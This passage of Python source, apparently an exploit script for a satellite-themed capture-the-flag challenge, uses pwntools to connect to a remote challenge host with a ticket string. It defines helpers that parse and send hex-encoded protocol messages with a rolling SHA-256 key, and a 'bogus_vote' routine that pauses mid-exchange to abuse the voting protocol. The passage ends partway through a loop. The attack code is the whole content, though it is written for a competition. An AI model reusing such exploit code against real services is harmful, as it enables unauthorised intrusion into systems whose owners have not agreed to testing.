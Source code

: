 ```python
    data = res[0x28:0x28+datalen]
    if log is True:
        print(mode)
        print('\t',key)
        print('\t',data)
    return mode,key,datalen,data

def sendMsg(cmd,size,data,pause=False):
    global key
    r.sendline(binascii.hexlify(p32(cmd)+key+p32(size)))
    if pause is True:
        r.interactive()
        cnt = 0
        while True:
            mode,_,_,_ = parseMsg()
            if mode==0:
                cnt+=1
                if cnt==10:
                    print('break free')
                    break
        r.interactive()
    if cmd==1:
        r.sendline(binascii.hexlify(data))
        key = hashlib.sha256(key).digest()

def vote(data):
    if type(data)==str:
        data = data.encode()
    data = data.ljust(0x20,b'\x00')
    sendMsg(1,0x20,data)

def withdrawVote():
    sendMsg(5,1,b'x')

def create(data):
    if type(data)==str:
        data = data.encode()
    sendMsg(3,len(data),data)

def bogus_vote(data):
    if type(data)==str:
        data = data.encode()
    data = data.ljust(0x20,b'\x00')
    sendMsg(1,0x20,data,pause=True)

###
ticket = 'ticket{uniform209323echo2:GO1uYhUCBx7CgElKTxojC7ISv-4Qk-fXd0lXJzmGr4HYhUGNJBNNGGuMLLdF-hrY1Q}'

r = remote('subtle-rumor.satellitesabove.me',5024)
r.sendlineafter('please:\n',ticket)
r.recvuntil('key: ')
key = r.recvline()[:-1]

while True:
    mode,_,_,data = parseMsg()
    if mode==0:
        break

vote(b'M30W')
vote(b'M30W')
bogus_vote('M30W')
while True:
```